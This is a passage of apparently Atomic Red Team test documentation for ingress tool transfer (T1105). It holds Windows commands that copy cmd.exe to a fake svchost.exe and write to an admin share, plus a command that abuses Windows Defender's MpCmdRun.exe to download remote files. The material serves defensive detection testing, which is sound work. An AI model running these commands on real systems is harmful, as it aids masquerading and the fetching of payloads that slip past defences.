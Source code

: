## Atomic Test #12 - svchost writing a file to a UNC path

svchost.exe writing a non-Microsoft Office file to a file with a UNC path.
Upon successful execution, this will rename cmd.exe as svchost.exe and move it to `c:\`, then execute svchost.exe with output to a txt file.

**Supported Platforms:** Windows

**auto_generated_guid:** fa5a2759-41d7-4e13-a19c-e8f28a53566f

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
copy C:\Windows\System32\cmd.exe C:\svchost.exe
C:\svchost.exe /c echo T1105 > \\localhost\c$\T1105.txt
```

#### Cleanup Commands:

```cmd
del C:\T1105.txt >nul 2>&1
del C:\\svchost.exe >nul 2>&1
```

<br/>
<br/>

## Atomic Test #13 - Download a File with Windows Defender MpCmdRun.exe

Uses Windows Defender MpCmdRun.exe to download a file from the internet (must have version 4.18 installed).
The input arguments "remote_file" and "local_path" can be used to specify the download URL and the name of the output file.
By default, the test downloads the Atomic Red Team license file to the temp directory.

More info and how to find your version can be found here https://lolbas-project.github.io/lolbas/Binaries/MpCmdRun/

**Supported Platforms:** Windows

**auto_generated_guid:** 815bef8b-bf91-4b67-be4c-abe4c2a94ccc

#### Inputs:

| Name        | Description                      | Type | Default Value                                                                    |
| ----------- | -------------------------------- | ---- | -------------------------------------------------------------------------------- |
| remote_file | URL of file to download          | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| local_path  | Location to save downloaded file | path | %temp%&#92;Atomic-license.txt                                                    |

#### Attack Commands: Run with `command_prompt`!

```cmd
cd "%ProgramData%\Microsoft\Windows Defender\platform\4.18*"
MpCmdRun.exe -DownloadFile -url #{remote_file} -path #{local_path}
```
